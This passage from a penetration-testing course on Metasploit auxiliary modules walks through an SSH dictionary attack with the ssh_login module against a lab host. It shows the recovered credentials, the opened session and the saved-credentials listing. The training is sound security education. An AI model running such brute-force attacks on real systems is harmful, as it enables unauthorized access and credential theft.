 > Listing 22 - Set options of *ssh\_login*

Now, all required options are set, and we can launch the module with **run**.

```
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 192.168.50.201:2222 - Starting bruteforce
[+] 192.168.50.201:2222 - Success: 'george:chocolate' 'uid=1001(george) gid=1001(george) groups=1001(george) Linux brute 5.15.0-37-generic #39-Ubuntu SMP Wed Jun 1 19:16:45 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.119.2:38329 -> 192.168.50.201:2222) at 2022-07-28 07:22:05 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> Listing 23 - Successful dictionary attack with Metasploit

By performing a dictionary attack with the activated auxiliary module, Metasploit could determine the correct password as shown in Listing 23. Unlike Hydra, Metasploit not only displays the valid credentials, but also opens a *session*. We'll explore what sessions are and how we can use them in the following Learning Unit, but for now, we should understand that Metasploit already provides us with interactive access to the target automatically.

As with the vulnerability displayed by the vulns command, we can display all valid credentials we gathered up to this point by entering **creds**.

```
msf6 auxiliary(scanner/ssh/ssh_login) > creds
Credentials
===========

host            origin          service       public  private    realm  private_type  JtR Format
----            ------          -------       ------  -------    -----  ------------  ----------
192.168.50.201  192.168.50.201  2222/tcp (ssh)  george  chocolate         Password
```

> Listing 24 - Displaying all saved credentials of the database

Nice! Metasploit stores the valid credentials automatically for us in the database. It also shows us the related host, the service, and the type of credential.

This concludes the section on auxiliary modules. We learned how to search for modules and how to set their options to fit our needs. Then we ran two modules and explored how Metasploit displays and stores the results. Metasploit offers a broad variety of auxiliary modules covering various protocols and techniques such as port scanning, fuzzing, and performing password attacks.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

The Metasploit Framework - Auxiliary Modules - VM Group 1

#### Labs
